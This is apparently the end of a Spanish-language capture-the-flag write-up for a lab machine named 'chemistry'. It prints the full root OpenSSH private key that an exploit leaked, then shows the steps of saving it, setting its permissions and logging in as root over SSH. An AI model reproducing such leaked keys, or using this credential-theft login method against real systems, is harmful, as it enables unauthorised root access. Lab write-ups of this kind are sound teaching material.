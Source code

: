```
vrLegAOwvNlDYGjJWnTqEmUDk9ruO4Eq4ad1TYMbAAAFiPikP5X4pD+VAAAAB3NzaC1yc2
EAAAGBALBW2MxsbJIGemDNSzlCbI1Oulh4vGNmRUHDNxvFYzvjRyivD9ISFFG55kxmj3lu
Hry3noZ2BUJXmgvbv/73IgSzTlhqnoOio7KtpVUZAL8CtrLiUk7VWfKhotb49MDuvUKFqx
xEWkapk862p1cmAHU5ol5RqlMostCOxlWKob/0Au47ehaK+DzAI3E9BA9xpB1STjW89nmr
+WhSXDr7AhtWgvdy3uUeN1oMKO5Bz5XzOQ40g0apgcWaWi6Vitx8AimCE26A32LDjGNM8i
NJOci5dbOvOaiSGCR5op/R2QZgyMEu3tq4kx4TW7dp2h8XdFpCfD1E4F7ldlDpY1j/01T0
5DOW8mr+W84SMMYbXU8tNg1o6hUJ9pGkPMXvV/mJq39sCvAuHswMnL5X9yLwE4/vl66Zpo
fbkdR3UtV7w+4JRBajW2KN0PzoYjLaNSRaoFroHh5u9ecg5wdwPqIOEhc6xL6y3oADsLzZ
Q2BoyVp06hJlA5Pa7juBKuGndU2DGwAAAAMBAAEAAAGBAJikdMJv0IOO6/xDeSw1nXWsgo
325Uw9yRGmBFwbv0yl7oD/GPjFAaXE/99+oA+DDURaxfSq0N6eqhA9xrLUBjR/agALOu/D
p2QSAB3rqMOve6rZUlo/QL9Qv37KvkML5fRhdL7hRCwKupGjdrNvh9Hxc+WlV4Too/D4xi
JiAKYCeU7zWTmOTld4ErYBFTSxMFjZWC4YRlsITLrLIF9FzIsRlgjQ/LTkNRHTmNK1URYC
Fo9/UWuna1g7xniwpiU5icwm3Ru4nGtVQnrAMszn10E3kPfjvN2DFV18+pmkbNu2RKy5mJ
XpfF5LCPip69nDbDRbF22stGpSJ5mkRXUjvXh1J1R1HQ5pns38TGpPv9Pidom2QTpjdiev
dUmez+ByylZZd2p7wdS7pzexzG0SkmlleZRMVjobauYmCZLIT3coK4g9YGlBHkc0Ck6mBU
HvwJLAaodQ9Ts9m8i4yrwltLwVI/l+TtaVi3qBDf4ZtIdMKZU3hex+MlEG74f4j5BlUQAA
AMB6voaH6wysSWeG55LhaBSpnlZrOq7RiGbGIe0qFg+1S2JfesHGcBTAr6J4PLzfFXfijz
syGiF0HQDvl+gYVCHwOkTEjvGV2pSkhFEjgQXizB9EXXWsG1xZ3QzVq95HmKXSJoiw2b+E
9F6ERvw84P6Opf5X5fky87eMcOpzrRgLXeCCz0geeqSa/tZU0xyM1JM/eGjP4DNbGTpGv4
PT9QDq+ykeDuqLZkFhgMped056cNwOdNmpkWRIck9ybJMvEA8AAADBAOlEI0l2rKDuUXMt
XW1S6DnV8OFwMHlf6kcjVFQXmwpFeLTtp0OtbIeo7h7axzzcRC1X/J/N+j7p0JTN6FjpI6
yFFpg+LxkZv2FkqKBH0ntky8F/UprfY2B9rxYGfbblS7yU6xoFC2VjUH8ZcP5+blXcBOhF
hiv6BSogWZ7QNAyD7OhWhOcPNBfk3YFvbg6hawQH2c0pBTWtIWTTUBtOpdta0hU4SZ6uvj
71odqvPNiX+2Hc/k/aqTR8xRMHhwPxxwAAAMEAwYZp7+2BqjA21NrrTXvGCq8N8ZZsbc3Z
2vrhTfqruw6TjUvC/t6FEs3H6Zw4npl+It13kfc6WkGVhsTaAJj/lZSLtN42PXBXwzThjH
giZfQtMfGAqJkPIUbp2QKKY/y6MENIk5pwo2KfJYI/pH0zM9l94eRYyqGHdbWj4GPD8NRK
OlOfMO4xkLwj4rPIcqbGzi0Ant/O+V7NRN/mtx7xDL7oBwhpRDE1Bn4ILcsneX5YH/XoBh
1arrDbm+uzE+QNAAAADnJvb3RAY2hlbWlzdHJ5AQIDBA==
-----END OPENSSH PRIVATE KEY-----

Exploit complete
```

Por lo que vemos funciona, por lo que nos conectaremos con su clave privada mediante `ssh` como `root`:

```shell
nano id_rsa

#Dentro del nano
<CONTENIDO_ID_RSA>
```

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa root@<IP>
```

Info:

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 15 Dec 2024 08:41:59 AM UTC

  System load:           0.08
  Usage of /:            77.0% of 5.08GB
  Memory usage:          33%
  Swap usage:            0%
  Processes:             238
```